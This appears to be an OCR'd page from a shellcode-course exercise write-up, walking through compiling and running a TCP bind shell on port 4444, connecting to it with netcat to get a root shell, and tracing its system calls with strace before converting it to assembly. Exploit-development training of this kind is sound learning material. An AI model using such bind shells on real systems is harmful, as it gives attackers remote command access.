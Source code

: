 \documentclass[11pt]{article}
\begin{document}
Compiling this code with \verb~gcc bindshell.c -o bindshell~ gives us a
nice executable. Running the executable with \verb~./bindshell~ and then
looking at our network using \verb~netstat -antp~ yields something very
interesting\ldots{}

\begin{verbatim}
root@blahblah:~# netstat -atp Active Internet connections (servers and
established) Proto Local Address Foreign Address State PID/Program
name tcp *:4444 *:* LISTEN 1657/bindshell
\end{verbatim}

Excellent! We have /bin/sh listen bound to a port. If we open up
another terminal and use netcat to connect to port 4444 by running \verb~nc -nv -nv 127.0.0.1 4444~ we will get:

\begin{verbatim}
root@blahblah:~# nc -nv 127.0.0.1 4444 (UNKNOWN) [127.0.0.1] 4444 (?)
open id uid=0(root) gid=0(root) groups=0(root)
\end{verbatim}

Perfect! We have a tcp bind shell connection. Now we have to convert
this to assembly\ldots{}
\subsection{Analysis of the C program}
\label{sec-1-4}

We can use a tool called \verb~strace~ to help us learn more about what system calls
our bind shell c program is making. Running \verb~strace ./bindshell~ and filtering
filtering out the noise we will see:

\begin{verbatim}
root@blahblah:~/shared/SLAE/slae/exercise1# strace ./bindshell
execve("./bindshell", ["./bindshell"], [/* 41 vars */]) = 0
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 0)                            = 0
accept(3,
\end{verbatim}
\end{document}
